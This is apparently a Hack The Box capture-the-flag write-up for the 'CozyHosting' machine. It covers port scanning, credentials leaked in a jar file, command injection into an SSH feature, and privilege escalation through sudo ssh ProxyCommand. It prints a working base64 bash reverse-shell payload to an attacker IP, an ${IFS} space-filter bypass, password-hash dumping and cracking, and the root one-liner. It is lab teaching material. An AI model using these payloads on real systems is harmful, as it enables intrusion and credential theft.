








## 1. Enumeration

- First we start off the box with a port scan:

```
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_  256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
1334/tcp open  http     SimpleHTTP Server
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-favicon: Unknown favicon MD5: 72A61F8058A9468D57C3017158769B1F
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

- The website only has the login function, and brute forcing does not work :vv

- Let's head to the simple http server on port 1334. It has a large .jar file, appears to be source code of the website:



- It has PostgreSQL username and password:



- And a test account :vv




## 2. Foothold

- Go ahead and login with that test account:



- Looking around on this page there is not much but the Automatic Patching function on the site is of definite interest since it looks like we can connect to the machine as long 
as we have our public key in the target’s authorized_keys file.

- Let’s look around here and see what we can find. I first tried putting in the IP address of my machine and used my machine username as well and got the following response from Burp repeater:

```
HTTP/1.1 302
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 06 Oct 2023 23:07:57 GMT
Content-Length: 0
Location: http://cozyhosting.htb/admin?error=ssh: connect to host 10.10.16.20 port 22: Connection timed out
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
```

- I then tried using the loopback address too with my username:

```
HTTP/1.1 302 
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 06 Oct 2023 23:12:18 GMT
Content-Length: 0
Location: http://cozyhosting.htb/admin?error=Host key verification failed.
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
```

- The second error though raises one question, exactly how is it reading usernames that are POSTed to the machine? This error occurs when a SSH client cannot verify the 
authenticity of the remote server it is trying to connect to. This makes me believe that data is getting passed to and from a function in their application, that passes input 
into a shell command, without properly sanitizing the input.

- I tried a few different common payloads to see if I could run the `id` command. Doing a simple `'id` returned promising results:



- After some testing and online searching, I found a great guide by <a href="https://book.hacktricks.xyz/pentesting-web/command-injection">HackTricks</a> that help 
escaping the sanitizer and execute command on the target server:

```
;`<payload>`
```



- Now that we have RCE confirmed, all we need to do is upload a reverse shell. The easiest way to do this will be to base64 encode a shell and tell the 
target to decode it and then run it. Should look like this:

```
bash -i >& /dev/tcp/10.10.14.79/4444 0>&1 = YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OS80NDQ0IDA+JjE=

echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OS80NDQ0IDA+JjE=' | base64 -d | bash
```

- URL-encode it and send the payload yields an error due to the restriction of space:



- To bypass this we can do a super simple trick which is to use ${IFS} in place of a space (IFS = Internal Field Separator).

```
;`echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OS80NDQ0IDA+JjE='${IFS}|base64${IFS}-d${IFS}|${IFS}bash`
```

- Once you have everything above done go ahead and start a netcat listener and send the payload to the target. It should hang and return a 504 error if the RCE attempt is successful.



```
(kali㉿kali)-[~]
└─$ nc -lvnp 9999    
listening on [any] 9999 ...
connect to [10.10.16.20] from (UNKNOWN) [10.10.11.230] 43648
bash: cannot set terminal process group (1064): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ id
id
uid=1001(app) gid=1001(app) groups=1001(app)
```

- Just an option, I'm gonna upgrade it to get a better interactive shell:

```
script /dev/null -c bash

# ^Z (CTRL Z) to background the shell

stty raw -echo;fg

reset #type 'screen' when asked for terminal type

export TERM=xterm # allows you to clear STDOUT
```

- Now that we have our shell setup, let’s see what we need to do to be able to read the user flag.

- Looks like the user flag is in the user josh’s home directory and we need to find a way to elevate our privilege to that user:

```
app@cozyhosting:/app$ pwd
/app
app@cozyhosting:/app$ ls -alh /home
total 12K
drwxr-xr-x  3 root root 4.0K May 18 15:03 .
drwxr-xr-x 19 root root 4.0K Aug 14 14:11 ..
drwxr-x---  4 josh josh 4.0K Oct  6 00:46 josh
app@cozyhosting:/app$ cd /home/josh
bash: cd: /home/josh: Permission denied
app@cozyhosting:/app$
```

- A friendly reminder, we found the credentials to connect to PostgreSQL in the jar file we found earlier (:v). Let's try connecting to it:

```
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres -W 
Password: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```

- List all databases:

```
postgres=# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
```

- Connect to `cozyhosting`:

```
postgres=# \c cozyhosting
Password: 
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

cozyhosting=# select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

- It should be easy to crack this password with `john`:

```
(kali㉿kali)-[~/htb/boxes/easy/cozy]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited
```

- Nice, we got the password and we can `su` to `josh` successfully now with that password. We can also grab the first flag:

```
app@cozyhosting:/app$ su josh
Password: 
josh@cozyhosting:/app$ id
uid=1003(josh) gid=1003(josh) groups=1003(josh)
josh@cozyhosting:/app$ cd
josh@cozyhosting:~$ ls -alh
total 40K
drwxr-x--- 4 josh josh 4.0K Oct  6 00:46 .
drwxr-xr-x 3 root root 4.0K May 18 15:03 ..
lrwxrwxrwx 1 root root    9 May 11 19:34 .bash_history -> /dev/null
-rw-r--r-- 1 josh josh  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 josh josh 3.7K Jan  6  2022 .bashrc
drwx------ 2 josh josh 4.0K May 18 14:47 .cache
-rw------- 1 josh josh   20 May 18 22:14 .lesshst
-rw-r--r-- 1 josh josh  807 Jan  6  2022 .profile
lrwxrwxrwx 1 root root    9 May 21 13:10 .psql_history -> /dev/null
drwx------ 2 josh josh 4.0K Oct  6 00:46 .ssh
-rw-r----- 1 root josh   33 Oct  3 17:35 user.txt
-rw-r--r-- 1 josh josh   39 Aug  8 10:19 .vimrc
josh@cozyhosting:~$ cat user.txt 
5efc683ffe6e0e712f45f904a9e91875
```

## 3. Privilege Escalation

- Checking our privilege, we can see that we are able to execute SSH with sudo privilege:

```
josh@cozyhosting:~$ sudo -l 
sudo -l
[sudo] password for josh: manchesterunited

Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *

```

- This is definitely odd, this means that `josh` has unrestricted privileges to run ssh as root and can specify any argument. Most likely our attack vector. 

- When it comes to doing privilege escalation on linux binaries, I always like to check out <a href="https://gtfobins.github.io/">GTFObins</a> to see if there is a solution. 
Interestingly enough, GTFObins has an exploit we can use in this situation:

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

- This exploit first works by utilizing the `ProxyCommand` option to establish an ssh session through an intermediary host (specified to start a session with itself in this 
exploit). 
- The `ProxyCommand` variable is set to one argument: `;sh 0<&2 1>&2`. This command attempts to execute a shell with input/output redirection, this basically means we can 
inject a shell into the ssh process and since the process is running as root, our injected shell will have root privileges.

- Run the payload and grab the flag :vv

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
[sudo] password for josh: 
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cat /root/root.txt
996d9eef6aaf359c062c153cdbfe0af0
```